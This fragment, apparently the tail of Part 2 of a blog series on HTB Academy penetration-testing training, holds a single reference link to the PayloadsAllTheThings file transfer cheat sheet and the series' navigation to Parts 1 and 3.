- [PayloadsAllTheThings: File Transfer Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings) — *Comprehensive operational transfer commands across OS platforms*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-1-getting-started/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 1: Getting Started</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 2 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-3-information-gathering-web-edition/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 3: Information Gathering (Web Edition)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
